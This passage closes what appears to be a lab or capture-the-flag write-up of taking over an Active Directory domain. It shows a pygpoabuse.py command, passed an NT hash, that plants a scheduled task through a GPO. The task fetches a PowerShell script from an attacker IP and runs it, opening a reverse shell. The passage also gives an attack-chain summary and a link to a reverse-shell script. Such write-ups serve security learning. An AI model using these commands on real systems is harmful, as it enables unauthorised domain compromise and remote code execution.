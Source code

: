 ### Evil GPO for domain Admin
[DACL Abuse](https://www.thehacker.recipes/ad/movement/dacl/) tells us that we can use
`pyGPOabuse.py` to gain Domain Admin.
For that we only need the GPO-ID that we want to target:
![GPO-ID gotten via bloodhound](/images/vulnlab_baby2/gpoid.png)

We can do this from the Linux host:
```bash
$ pygpoabuse.py $DOMAIN/$USER -hashes :$NT_HASH -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -powershell -command "Start-Process powershell 'Invoke-RestMethod http://10.8.3.211/rev444.ps1 |
Invoke-Expression'"
SUCCESS:root:ScheduledTask TASK_3868f761 created!
[+] ScheduledTask TASK_3868f761 created!
```

Run the following command on our Windows reverse shell to force update the new GPO policy
```powershell 
> gpupdate /force
Updating policy...

Computer Policy update has completed successfully.

User Policy update has completed successfully.
```

And we have our reverse shell:

![System Reverse shell](/images/vulnlab_baby2/windows_revshell.png)

## 6. Profit
The user flag is at `C:\user.txt` The root flag is at `C:\Users\Administrator\Desktop\root.txt`

![Flags](/images/vulnlab_baby2/win.png)

# Personal Notes
## Summary
1. Anonymous login on SMB reveals usernames
2. username=password -> Domain user
3. Domain user can write to SYSVOL login script -> RCE as different User
4. New User has `WriteDacl` -> Another User
5. Last User has `GenericAll` for Domain -> DomainAdmin
## Relevant information
* usernames 
* Writable SYSVOL folder, login script in bloodhound
* Path to domain admin in Bloodhound

## Personal Time sinks
Collection on things that took myself too much time.
* Debugging broken powershell tool -> Use this [Gist](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/3ad91872713d60888dca95850c3f6e706231cb40/powershell_reverse_shell.ps1)
* Debugging VBA - if a command errors the script terminates -> 'Debugging' can be counterproductive, too! (I tried to check if the script works by having Responder capture the hash all the time)
* Abusing DACL 
  * Lookup on [Hacker recipes](https://www.thehacker.recipes/ad/movement/dacl/)
  * Add `-PrincipalIdentity (own user)` for bloodhound commands
